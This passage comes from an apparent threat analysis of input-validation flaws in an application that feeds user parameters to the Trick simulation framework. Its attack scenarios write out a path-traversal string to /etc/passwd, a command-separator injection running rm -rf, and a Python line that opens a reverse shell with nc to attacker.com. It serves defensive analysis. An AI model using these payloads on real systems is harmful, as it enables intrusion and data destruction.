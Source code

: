 The core vulnerability lies in the **lack of input validation and sanitization** by the application *before* passing user input to Trick. This assumes that Trick itself might not have robust input validation for all its parameters, or that the application is bypassing any existing Trick-level validation by directly feeding in potentially malicious data.

Specific potential vulnerabilities include:

* **Command Injection:** If `S_params` or other input parameters are used by Trick to execute system commands (directly or indirectly), an attacker could inject malicious commands. For example, if `S_params` is used to specify file paths that are later processed by Trick using system calls, an attacker could inject commands within these file paths.
* **Code Injection:** If `S_params` or other parameters are interpreted as code (e.g., in a scripting language used by Trick for configuration or simulation logic), an attacker could inject malicious code that gets executed by Trick. This is especially relevant if Trick uses languages like Python, Lua, or similar for configuration or scripting.
* **Parameter Manipulation/Abuse:** Even without direct code or command injection, attackers could manipulate `S_params` to alter the simulation in unintended and potentially harmful ways. This could include:
    * **Resource Exhaustion:** Setting parameters to consume excessive resources (memory, CPU), leading to denial-of-service.
    * **Simulation Logic Manipulation:** Altering simulation parameters to produce incorrect or misleading results, potentially compromising the integrity of the simulation output.
    * **Data Exfiltration (Indirect):** In some complex scenarios, manipulating simulation parameters could indirectly lead to the exfiltration of sensitive data if the simulation interacts with external systems in unexpected ways.
* **Path Traversal:** If `S_params` involves file paths, attackers might be able to use path traversal techniques (e.g., `../../../../etc/passwd`) to access or manipulate files outside the intended simulation environment, potentially gaining access to sensitive system files if Trick processes these paths without proper sanitization.

#### 4.3 Attack Scenarios

**Scenario 1: Command Injection via File Path in `S_params`**

* **Application:** A web application allows users to configure a Trick simulation by providing `S_params` through a web form. One of the `S_params` is "output_log_path".
* **Vulnerability:** The application directly passes the user-provided `output_log_path` to Trick. Trick, internally, uses this path in a system command to create the log directory.
* **Attack:** An attacker enters the following as `output_log_path`:  `; rm -rf /tmp/malicious_dir && mkdir /tmp/malicious_dir/`.
* **Exploitation:** Trick receives this path and executes a command similar to `mkdir -p <user-provided output_log_path>`. Due to the injected command separator `;`, the attacker's command `rm -rf /tmp/malicious_dir && mkdir /tmp/malicious_dir/` is executed *before* the intended directory creation. This is a simplified example; a more sophisticated attacker could execute more damaging commands.

**Scenario 2: Code Injection via Script Parameter**

* **Application:** A command-line application takes `S_params` as command-line arguments. One parameter, `init_script`, is supposed to be a path to a simulation initialization script.
* **Vulnerability:** The application passes `init_script` directly to Trick. Trick interprets the content of the file pointed to by `init_script` as code (e.g., Python).
* **Attack:** An attacker creates a file named `malicious.py` with malicious Python code (e.g., `import os; os.system("nc -e /bin/bash attacker.com 4444")`). They then provide `init_script=malicious.py` as an `S_params` argument.
* **Exploitation:** Trick executes the code in `malicious.py`, resulting in a reverse shell being established to the attacker's machine.
